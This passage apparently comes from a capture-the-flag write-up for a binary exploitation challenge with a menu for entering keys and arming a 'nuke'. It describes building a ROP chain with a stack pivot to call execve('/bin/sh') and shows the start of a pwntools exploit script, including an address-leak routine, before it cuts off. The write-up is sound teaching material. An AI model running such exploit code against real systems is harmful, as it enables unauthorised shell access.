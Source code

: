 {% highlight bash %}
$ whoami
shitshell
{% endhighlight %}

So to get around this, I had to write my own ROP chain to manually perform the syscall for `execve("/bin/sh\0");`
I used both gadgets from libc and a stack pivot gadget from the ELF executable to generate my ROP chain.

Putting everything together, we get a shell using the following exploit.

## Exploit
{% highlight python %}
#!/usr/bin/env python

from pwn import *
from Crypto.Cipher import AES
import sys

def key1(data):
    r.sendline("1")
    r.recvuntil("KEY:")
    r.send(data)
    r.sendline("")
    r.sendline("")
    r.recvuntil("SELECTION:")

def key2(length, key, data, reconnected=False):
    r.sendline("2")
    r.recvuntil("KEY:")
    r.sendline(str(key))
    r.recvuntil("):")
    r.sendline(str(length))
    r.recvuntil("ENCRYPT:")
    r.send(data)
    r.sendline("")
    r.sendline("")
    r.sendline("\n")
    r.recvuntil("SELECTION:")

def key3(response,reconnected=False):
    r.sendline("3")
    r.recvuntil("RESPONSE:")
    r.send(response)
    r.sendline("")
    r.recvuntil("AUTHENTICATED")
    r.sendline("")
    r.recvuntil("SELECTION:") #

def arm_nuke(nuke_code):
    r.sendline("4")
    r.sendline(nuke_code)
    r.sendline("")
    r.sendline("")
    r.sendline("\n")
    r.recvuntil("SELECTION:")

def leak_elf():
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak = (int("0x"+tmp_leak[10],16)*0x10)+int("0x"+tmp_leak[11],16)
    r.recvuntil("STATUS:")
    tmp_leak = r.recv(0xd)
    elf_leak += (int("0x"+tmp_leak[10],16)*0x1000)+(int(tmp_leak[11],16)*0x100)
    r.recvuntil("STATUS:")
